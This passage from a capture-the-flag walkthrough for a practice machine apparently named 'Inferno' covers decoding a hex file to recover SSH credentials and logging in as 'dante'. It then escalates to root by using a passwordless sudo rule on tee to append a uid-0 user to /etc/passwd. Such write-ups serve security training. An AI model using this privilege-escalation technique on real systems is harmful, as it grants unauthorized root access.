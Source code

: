   ```sh

  # other directories are empty
  ```

* From the file '.download.dat' found in Downloads directory, we get some code - we need to identify & decode this

* Using the 'Magic' recipe on CyberChef, we get to know that it can be decoded from Hex - doing so gives us another passage in Italian, and at the end of the script we have credentials "dante:V1rg1l10h3lpm3"

* We can log into SSH as 'dante' now:

  ```sh
  ssh dante@inferno.thm
  # use above password

  # we are able to login
  cat local.txt
  # get user flag
  ```

* In SSH access also, every minute a ```logout``` or ```exit``` command is run, due to which we lose our access - to avoid this, like previously, a temporary workaround would be to run ```/bin/bash``` every minute while we enumerate the system for privesc (alternatively, you can run the ```/bin/bash``` command several times in a single row)

* While enumerating, we can check ```sudo -l```, which shows we can run ```/usr/bin/tee``` as root without password

* [GTFOBins](https://gtfobins.github.io/gtfobins/tee/) shows that we can append to any file as root - we can create a privileged user of our own by modifying ```/etc/passwd```:

  ```sh
  # in attacker machine
  # generate hash value of password for new user
  openssl passwd -1 -salt testuser password1
  
  # use above generated hash value
  # with tee command
  echo 'testuser:$1$testuser$Fq4RWB1/RrIgp3os8Q1fy.:0:0:root:/root:/bin/bash' | sudo /usr/bin/tee -a /etc/passwd

  su testuser
  # use 'password1'
  # we get root shell

  # read root flag at /root/proof.txt
  ```
